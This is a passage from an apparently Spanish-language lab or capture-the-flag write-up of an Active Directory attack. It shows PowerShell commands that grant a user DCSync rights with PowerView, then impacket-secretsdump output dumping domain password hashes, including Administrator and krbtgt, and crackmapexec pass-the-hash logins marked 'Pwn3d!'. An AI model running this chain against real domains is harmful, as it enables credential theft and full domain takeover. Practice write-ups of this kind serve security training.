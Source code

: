 Ahora, seguimos los pasos que nos indican:
* Convertir la contraseña de nuestro usuario en un objeto **SecureString** para convertirla en una contraseña "segura".
* Crear el **objeto PSCredential**, agregándole el dominio, nuestro usuario y la contraseña segura.
* Modificar los **permisos del ACL** con el **comando Add-DomainObjectAcl** del **módulo PowerView.ps1**, para darle los mismos privilegios que tiene el dominio a nuestro **usuario song** y pueda replicar **objetos del AD** (**incluyendo los hashes**).

Apliquémoslo:
```batch
*Evil-WinRM* PS C:\Users\song\Desktop> $SecPassword = ConvertTo-SecureString 'contraseña_de_usuario_song' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\song\Desktop> $Cred = New-Object System.Management.Automation.PSCredential('bbr.thl\song', $SecPassword)
*Evil-WinRM* PS C:\Users\song\Desktop> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=bbr,DC=thl" -PrincipalIdentity song -Rights DCSync
```
Solamente modificamos el último paso, ya que se debe especificar el dominio para que funcione bien.

Con todo esto listo, ya deberíamos poder dumpear los hashes de la máquina víctima:
```bash
impacket-secretsdump bbr.thl/song@192.168.212.4
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b3723455bd8be604ae2e1df74db81b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bbr.thl\Music:1103:aad3b435b51404eeaad3b435b51404ee:8ab1d3828490421d0dc1ddd6e2552d90:::
bbr.thl\song:1104:aad3b435b51404eeaad3b435b51404ee:5919764374e465e68f886ac0c4f75ab3:::
BIG$:1000:aad3b435b51404eeaad3b435b51404ee:0f7d9f62a1d1fdfb48aecc7f2663824e:::
...
...
```
Excelente, tenemos los hashes.

Podemos comprobar si funcionan los del **usuario administrator** con **crackmapexec**:
```bash
crackmapexec smb 192.168.212.4 -u "administrator" -H "5d48bcf84aea999fb1ade06970a81237"
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
SMB         192.168.212.4   445    BIG              [+] bbr.thl\administrator:5d48bcf84aea999fb1ade06970a81237 (Pwn3d!)

crackmapexec smb 192.168.212.4 -u "administrator" -H "aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237"
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
SMB         192.168.212.4   445    BIG              [+] bbr.thl\administrator:5d48bcf84aea999fb1ade06970a81237 (Pwn3d!)
```
Tanto el **hash NTML**, como el **hash NT** funcionan para **SMB**.
